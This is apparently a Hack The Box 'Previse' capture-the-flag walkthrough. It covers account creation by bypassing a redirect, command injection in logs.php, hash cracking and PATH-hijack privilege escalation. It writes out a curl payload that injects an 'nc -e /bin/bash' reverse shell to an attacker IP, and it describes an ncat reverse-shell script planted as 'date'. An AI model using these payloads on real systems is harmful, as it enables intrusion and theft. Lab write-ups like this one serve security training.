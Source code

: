 # HTB Previse

### Enumeration
As with most, if not all htb machines, we add previse.htb to the hosts file on the attacking machine.

![Step 0](screenshots/hosts-file.png "Setup hosts file")

Initial scan with nmap shows ports 22 and 80 are open.

`nmap -Pn -p- -vv -sV -A -oA all-ports previse.htb`

![Step 1](screenshots/nmap-scan.png "Nmap Scan")

Checking out port 80 shows a login page.
Start wfuzz with modified wordlist.

![Step 2](screenshots/wfuzz.png "Wfuzz")

When attempting to visit accounts.php in a browser, the attacker will get redirected back to the login page.
An attacker can use a couple tools to bypass this redirect.

#### Option 1
Use OWASP ZAP or Burpsuite to break point / intercept the response traffic and change the 302 Found to a 200 Ok.
This will trick the browser into viewing accounts.php.
If the attacker likes this option, they will have to keep modifying the response and create a user account.

![Step 3.1](screenshots/zap_1.png "Zap Step 1")
![Step 3.2](screenshots/zap_2.png "Zap Step 2")
![Step 3.3](screenshots/create_acct.png "Zap Step 3 / Create Account")

#### Option 2
The attacker can also view accounts.php by using curl to view accounts.php and create an account.
```buildoutcfg
# Create username123 // password312
curl http://previse.htb/accounts.php --data-raw 'username=username123&password=password312&confirm=password312&submit='
``` 

![Step 4.1](screenshots/curl_accounts-php.png "cURL")
![Step 4.1](screenshots/curl_create-user.png "cURL / Create User")

Which ever option the attacker takes, they can now login from the main page and view the site.
The attacker has the ability to download a file and view the contents.
The contents are a backup of the site.

### Foothold

Looking through the files in the backup, an attacker might notice the logs.php is executing a system command.
There's an injection vulnerability with the 'delim' parameter.
Using the PHPSESSID cookie (the attacker should be logged in as a user at this point) and cURL, an attack can establish a reverse shell to the attacking machine.

```curl http://previse.htb/logs.php' -H 'Cookie: PHPSESSID=gEtYoUrOwNcOoKiE' --data-raw 'delim=comma; nc 10.10.16.54 4444 -e /bin/bash'```

![Step 5](screenshots/foothold.png "Foothold")

Check /etc/passwd for a usernames (`cat /etc/passwd`).
The config.php file from the backup has some notable information in it.
Using this, the attacker can log into the mysql database.

![Step 6](screenshots/config_php.png "Config.php")

Using the foothold, login to mysql (`mysql -u root -p`).
There are hashes stored in mysql.
One of the hashes appears to be for the username found in /etc/passwd.
Checking back at accounts.php, the crypt() function is used and a salt is provided.
This means it should be basic MD5 encryption.

![Step 7](screenshots/accounts_crypt.png "Accounts.php")

Use hashcat and rockyou.txt dictionary (`hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt`).

PASSWORD CRACKING NOTES: Typically, you can tell if it's meant to be cracked by using the rockyou.txt dictionary provided by Kali Linux.
If rockyou.txt doesn't work, another option is to use cewl on the HTTP/HTTPS service and create your own dictionary.
If you use the cewl option, you may also need to mutate the dictionary. 

![Step 8](screenshots/hashcat.png "Hashcat")

### User.txt

Now the attacker can login via SSH with the username from /etc/passwd and the cracked password.
The user.txt flag is waiting for the attacker upon login.

### Root.txt

Check what commands are allowed with sudo (`sudo -l`).
The script that is allowed root privileges, seems to be calling unix 'date'.
Create a malicious 'date' script in /tmp with a ncat reverse shell.
Edit the PATH variable to include /tmp.
In another terminal, setup ncat as a listener for an incoming connection.
Execute the access_backup.sh with sudo and the attacker is granted root access.

![Step 9.1](screenshots/root-1.png "Root Step 1")
![Step 9.2](screenshots/root-2.png "Root Step 2")